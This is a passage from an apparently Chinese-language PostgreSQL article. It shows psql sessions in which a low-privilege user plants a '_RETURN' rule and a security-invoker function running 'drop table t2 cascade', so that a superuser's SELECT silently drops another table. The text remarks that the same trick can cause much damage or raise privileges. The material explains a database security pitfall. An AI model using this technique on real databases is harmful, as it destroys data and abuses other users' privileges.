 t1表被删除了。  
  
你还可以搞很多破坏，或者提升权限的事情。  
  
规则也存在函数调用的反噬陷阱。  
  
```  
postgres=# \c postgres digoal  
You are now connected to database "postgres" as user "digoal".  
postgres=> create rule r1 as on delete to t do instead delete from t1;  
CREATE RULE  
postgres=> delete from t;  
ERROR:  permission denied for relation t1  
  
postgres=> \c postgres postgres  
You are now connected to database "postgres" as user "postgres".  
postgres=# \set VERBOSITY verbose  
postgres=# delete from t;  
ERROR:  42501: permission denied for relation t1  
LOCATION:  aclcheck_error, aclchk.c:3371  
```  
  
在规则中，使用函数调用：  
  
```  
postgres=> create or replace function f() returns void as $$  
postgres$> declare  
postgres$> begin  
postgres$> drop table t2 cascade;  
postgres$> end;  
postgres$> $$ language plpgsql security invoker;  
CREATE FUNCTION  
postgres=> create table tmp (id int);  
CREATE TABLE  
postgres=> create rule "_RETURN" as on select to tmp do instead select 1 as id from f();  
CREATE RULE  
  
postgres=> select * from tmp;  
ERROR:  must be owner of relation t2  
CONTEXT:  SQL statement "drop table t2 cascade"  
PL/pgSQL function f() line 4 at SQL statement  
  
postgres=> \c postgres postgres  
You are now connected to database "postgres" as user "postgres".  
postgres=# select * from tmp;  
 id   
----  
  1  
(1 row)  
postgres=# \d t2  
Did not find any relation named "t2".  
```  
  
t2表被成功删除。  
  